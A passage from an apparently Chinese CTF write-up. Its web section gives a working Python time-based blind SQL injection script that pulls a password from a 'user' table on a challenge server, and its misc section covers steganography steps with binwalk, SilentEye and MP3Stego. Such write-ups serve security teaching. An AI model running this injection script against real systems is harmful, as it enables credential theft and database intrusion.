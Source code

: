             print(flag)
            break</code></pre>

<p>爆列名和爆表名基本一样，这就不放了，知道了表名<code>user</code>和三个列名<code>id</code>、<code>name</code>、<code>password</code>，最后爆用户名和密码。</p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆字段
import requests
import time

flag = ''
maxlength = 29
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substr((Select password from user limit 0,1),{0},1)) ={1},sleep(5),null))"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break</code></pre>

<p>得到用户名cosmos和密码</p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-3.png)</p>

<p>最后登陆C老板的账号获得flag</p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-1.png)</p>

<h2>Misc</h2>

<h3>三重隐写</h3>

<p>打开压缩包，里面东西有点多，一个貌似是解密工具的安装包，先装了再说，另外还有三段音频，其中两个MP3，一个wav，最后还有个7z加密压缩包。  </p>

![](https://img.blueflame.org.cn/images/2020/02/week3-misc-5.png)</p>

<p>先全都用binwalk分析了一下，然后在一个MP3中发现了一张条形码图片，直接手机扫，提示无商品信息。。。只能用在线工具扫了一下，得到了一个密码。</p>

![](https://img.blueflame.org.cn/images/2020/02/week3-misc-3.png)</p>

<p>似乎是一个AES解密用的密匙，暂时用不到。</p>

<p><del>那就先听听音乐放松一下</del></p>

<p>全听了一遍没有异常之处，再用Audacity看了一下频谱之类的都没啥问题。</p>

<p>剩下一个MP3多半是MP3Stego隐写的，但没有解密的密码，那么密码应该在wave文件里，这个文件名提示是LSB，本以为只有图片可以，没想到音频也可以LSB隐写，找了下资料，用SilentEye解密得到了MP3Stego的密码。</p>
